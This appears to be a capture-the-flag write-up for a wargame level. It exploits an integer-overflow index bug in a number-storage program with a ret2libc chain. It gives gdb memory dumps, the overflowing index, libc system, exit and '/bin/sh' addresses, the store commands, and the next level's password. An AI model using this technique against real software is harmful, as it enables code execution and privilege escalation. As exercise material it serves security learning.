## Project README: Finding flag07

This programe his crating of array that can stock number. we have 464 place to do that. So when the program launch we can store read or quit.

### Analysis

So the idea we found was to write in the stack the place of EIP. So when the programs that saved EIP will exit to this adress he will jump the specific adress we gave him. So first we need to find the adress of eip then write the adress of our shellcode. But the problem is that if our eip adress is mod 3 his reserved for will.

### Progress

We first need to pick an adress that interest us. That is after our buffer in memory.

Input command: store
 Number: 8 1
 Index: 1
 Completed store command successfully
Input command: quit

Breakpoint 1, 0x080489f1 in main ()
(gdb) si
0xf7e45513 in __libc_start_main () from /lib32/libc.so.6

we can see when we are quiting the program he jump to this adress in the libc : 0xf7e45513

Now let's find it in the memory. We know that we put our value at index 1 (0 is reserved for will)
let's see by putting a break point in our store number.
```sh
(gdb) b *0x080486d5
Breakpoint 2 at 0x80486d5

0xffffd500:	0x08048add	0xffffd554	0x00000000	0xf7e2b6c0
0xffffd510:	0xffffd718	0xf7ff0a50	0x00000008	0x00000001
0xffffd520:	0x00000000	0xffffdfdc	0xffffd718	0x080488ef
0xffffd530:	0xffffd554	0x00000014	0xf7fcfac0	0xf7fdc714
0xffffd540:	0x00000098	0xffffffff	0xffffd80c	0xffffd7b8
0xffffd550:	0x00000000	0x00000000	0x00000008	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

ok our 8 is at the adress 0xffffd558 now let's find the eip adress : 0xf7e45513
```sh
(gdb) x/256wx $esp
0xffffd550:	0x00000000	0x00000000	0x00000008	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0x00000000	0x00000001	0x726f7473	0x00000065
0xffffd6f0:	0x00000000	0x00000000	0x00000000	0x1c409700
0xffffd700:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
0xffffd710:	0x00000000	0x00000000	0x00000000	0xf7e45513
```



ok it's at the adress 0xffffd71c.
So now we can calculate how much is it after our buffer.
114 places ok so let's check first by using the read.
Input command: read
- Index: 114
- Number at data[114] is 4158936339
- Completed read command successfully

4158936339 in hex = F7E45513
so yes exactly the adress we want to target. But we cannot change the value because 114 % 3 = 0.
So it's reserved for will. But there is something that we can do is actually doing a buffer overflow because we are not puting at the 114 place but actually at the 456 places

```C
*(unsigned int)(index * 4 + data) = number;
```

So multiplicating by 4 equal doing a bitshifting of 2 (<< 2).
And when we bit shift of 2 the number that are in the front are removed.
so for exemple 4000000000015 bit shifting of 2 equal 15.
Because an uint is 32 bit. so he will overflow and remove the 2 first number.
So let's try to find the number using the programming calc.

![programing calc screenshot](./Ressources/calc.png)

So we put one at the 32 bit. that will be removing when the * 4.
And then we put 114.
and we found this number : **1073741938**
Let's try a retToLibC.
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 (decimal = 4159090384) <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 (decimal =4159040368) <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec (Decimal = 4160264172)
```

Ok let try this :
```sh
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
et voila


